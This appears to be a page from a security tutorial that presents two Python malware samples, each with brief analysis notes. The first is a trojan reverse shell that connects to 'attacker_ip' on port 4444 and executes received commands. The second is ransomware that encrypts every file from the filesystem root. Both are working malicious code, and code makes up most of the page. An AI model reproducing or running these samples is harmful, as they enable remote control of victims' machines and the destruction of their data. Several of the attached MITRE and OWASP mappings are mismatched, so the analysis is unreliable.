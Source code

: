 ### **6. Malware Example: Trojan**

#### **Trojan Code Example:**
```python
import socket
import subprocess

def connect_to_attacker():
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(("attacker_ip", 4444))
    while True:
        command = s.recv(1024).decode()
        if command.lower() == 'exit':
            break
        output = subprocess.getoutput(command)
        s.send(output.encode())
    s.close()

connect_to_attacker()
```
**Analysis:**
- The Trojan connects to an attacker's server and executes commands received from the attacker, providing a backdoor.
- **MITRE ATT&CK Reference:** This malware can be used to achieve **T1133 (External Remote Services)** and **T1219 (Remote Access Software)**.
- **Exploit-DB Reference:** Similar to real-world Trojan attacks.
- **OWASP Top 10 Reference:** This malware falls under **A8:2021 - Software and Data Integrity Failures**.

### **7. Malware Example: Ransomware**

#### **Ransomware Code Example:**
```python
import os
from cryptography.fernet import Fernet

def encrypt_files(key):
    fernet = Fernet(key)
    for root, dirs, files in os.walk("/"):
        for file in files:
            file_path = os.path.join(root, file)
            with open(file_path, "rb") as f:
                data = f.read()
            encrypted_data = fernet.encrypt(data)
            with open(file_path, "wb") as f:
                f.write(encrypted_data)

key = Fernet.generate_key()
encrypt_files(key)
print(f"Files encrypted. Send {key.decode()} to recover your files.")
```
**Analysis:**
- The ransomware encrypts all files on the system and demands a key for decryption, holding the files hostage.
- **MITRE ATT&CK Reference:** This malware can be used to achieve **T1486 (Data Encrypted for Impact)** and **T1490 (Inhibit System Recovery)**.
- **Exploit-DB Reference:** Similar to real-world ransomware attacks.
- **OWASP Top 10 Reference:** This malware falls under **A8:2021 - Software and Data Integrity Failures**.
